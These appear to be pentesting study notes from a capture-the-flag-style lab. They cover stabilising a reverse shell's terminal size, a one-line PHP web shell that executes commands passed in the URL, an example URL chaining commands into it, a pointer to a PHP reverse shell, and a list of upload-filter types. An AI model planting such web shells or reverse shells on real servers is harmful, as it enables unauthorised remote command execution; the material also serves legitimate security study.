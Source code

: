 
### Change terminal tty size~

First, open another terminal and run 
```
stty -a
```
This will give you a large stream of output. Note down the values for "rows" and columns

Next, in your reverse/bind shell, type in:
```
~stty rows <number>
~stty cols <number>	
```
This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.



---

## WebShells RCE Upload Vulnerabilities

there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- a full reverse shell written in PHP

```
<?php
    echo system($_GET["cmd"]);
?>
```

- add this to a web directory with a filename like 'webshell.php'
- then navigate to the file you uploaded and add to the url your console cmd
  
>e.g. `http://shell.uploadvulns.thm/resources/webshell.php?cmd=id;whoami;ls`

then from here we can upload an RCE

>https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

When the target is ***Windows***, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. 
To obtain RCE using a web shell you need to use ***URL Encoded Powershell Reverse Shell***. This would be copied into the URL as the `cmd` argument:

---

### Client-side filtering and server-side filtering

- Extension Validation
- File Type Filtering
  - MIME validation
  - Magic Number validation
- File Length Filtering
- File Name Filtering
- File Content Filtering

---